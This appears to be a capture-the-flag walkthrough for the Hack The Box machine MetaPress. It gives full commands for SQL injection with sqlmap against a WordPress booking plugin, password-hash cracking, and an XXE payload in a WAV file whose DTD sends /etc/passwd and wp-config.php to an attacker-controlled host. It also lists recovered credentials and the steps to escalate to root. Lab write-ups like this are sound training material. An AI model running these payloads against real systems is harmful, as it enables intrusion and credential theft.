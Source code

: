## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
## 🌐 Recon Phase

### Nmap Full Port Scan + Service Version Detection
```bash
nmap -p- --min-rate 10000 10.10.11.186
nmap -p 21,22,80 -sCV 10.10.11.186
```

### Add Host Mapping
```bash
echo "10.10.11.186 metapress.htb" | sudo tee -a /etc/hosts
```

### [Wfuzz for Subdomains](HTTP)
```bash
wfuzz -u http://10.10.11.186 -H "Host: FUZZ.metapress.htb" \
-w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 145
```

---

## 🧨 SQL Injection (BookingPress Plugin)

### Identify Nonce from Page Source
```bash
# Example nonce found in /events/ page JS
'_wpnonce=6027d5fa3e'
```

### SQLMap Setup
Save this as `sqli.req` (modified from Burp):
```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: metapress.htb
Content-Type: application/x-www-form-urlencoded

action=bookingpress_front_get_category_services&_wpnonce=6027d5fa3e&category_id=33&total_service=223
```

### Run SQLMap
```bash
sqlmap -r sqli.req -p total_service --dbs
sqlmap -r sqli.req -p total_service -D blog --tables
sqlmap -r sqli.req -p total_service -D blog -T wp_users --dump
```

---

## 🔐 Cracking WordPress Hash

### Save Hashes
```text
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

### Hashcat
```bash
hashcat -m 400 -a 0 wp.hashes /usr/share/wordlists/rockyou.txt --username
# Cracked: manager:partylikearockstar
```

---

## 🎯 XXE Exploit for File Disclosure

### payload.wav
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://10.10.14.6/evil.dtd">%remote;%init;%trick;]>\x00' > payload.wav
```

### evil.dtd (serve via Python HTTP server)
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.6/?p=%file;'>">
```

### Serve DTD
```bash
python3 -m http.server 80
```

---

## 🔐 Extract [FTP](FTP) + DB Credentials

From `evil.dtd`, modify to target:
```xml
php://filter/convert.base64-encode/resource=../wp-config.php
```

Expected credentials:
```php
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
```

---

## 📂 FTP Enumeration

```bash
ftp metapress.htb@metapress.htb
# Enter password from wp-config
```

Check files in `/mailer/send_email.php` → extract SMTP creds:
```php
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
```

---

## 🧑‍💻 Shell as `jnelson`

```bash
sshpass -p 'Cb4_JmWM8zUZWMu@Ys' ssh jnelson@metapress.htb
cat ~/user.txt
```

---

## 🧬 Privilege Escalation via Passpie + GPG

### Extract `.keys` and Format with `gpg2john`
```bash
scp jnelson@metapress.htb:~/.passpie/.keys keys
gpg2john keys | tee gpg.hash
```

### Crack with John
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt gpg.hash
# Found passphrase: blink182
```

### Retrieve Root Password via Passpie
```bash
passpie copy --to stdout --passphrase blink182 root@ssh
# Output: p7qfAZt4_A1xo_0x
```

---

## 🟢 Root Shell

```bash
su -
# Enter root pass: p7qfAZt4_A1xo_0x
cat /root/root.txt
```